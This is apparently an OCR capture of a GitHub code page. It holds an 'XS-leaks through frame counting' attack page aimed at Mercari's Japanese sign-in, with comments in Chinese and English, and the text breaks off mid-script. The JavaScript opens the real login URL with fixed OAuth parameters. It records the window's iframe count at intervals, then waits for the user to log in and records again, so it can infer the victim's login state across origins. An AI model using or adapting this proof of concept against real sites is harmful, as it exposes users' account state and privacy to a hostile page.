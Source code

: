 ```jsx
       
    </script>
    
  </body>
</html>
```

- 记录三次 メルカリ界面

~~~js
<!DOCTYPE html>
<html lang="zh-Hans">
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet">
    <title>xs-leaks attack page</title>
  </head>

  <style>
    .sm-item {
      display: flex;
      flex-flow: row nowrap;
      padding-left: 16px;
      font-size: 1.6rem;
    }
    .item-text{
        flex: 1 1 auto;
        margin: 11px 8px 11px 16px;
        font-family: inherit !important;
        /*超过宽度，自动换行*/
        white-space: pre-wrap;
        word-wrap: break-word;
      }
  </style>

  <body style="height: 100%;">
    <h1>XS-leaks through frame counting</h1>
    <p>This is a page to contact login page.</p>
    
    <script type="text/javascript">
      //第一次打开页面记录iframe
      var win = window.open("https://jp.mercari.com/signin?params=client_id%3DbP4zN6jIZQeutikiUFpbx307DVK1pmoW%26code_challenge%3DlCy6XEvYsmhTigeVxvqVXGPDlXxdG-JTd79sM6GQihY%26code_challenge_method%3DS256%26noBackButton%3D1%26nonce%3DXksgrzLuxz9U%26redirect_uri%3Dhttps%253A%252F%252Fjp.mercari.com%252Fauth%252Fcallback%26response_type%3Dcode%26scope%3Dmercari%2520openid%26state%3DeyJwYXRoIjoiLyIsInJhbmRvbSI6Ii1MRkVFdkhjbk9pVCJ9%26ui_locales%3Dja");
      var pattern1 = [];
      // In a loop, register the number of iframes at 60ms interval
      var recorder = setInterval(() => {
        pattern1.push(win.length)
      }, 60);

      // Break the loop after 6 seconds
      setTimeout(() => {
         clearInterval(recorder);
         console.log("The pattern1 is:", pattern1.join(', '));
      }, 6 * 1000);
  
      //12秒后等待用户登录后再记录iframe
      setTimeout(twiceOpen,12 * 1000);
      function twiceOpen(){
        var pattern2 = [];
        // In a loop, register the number of iframes at 60ms interval
        var recorder = setInterval(() => {
~~~
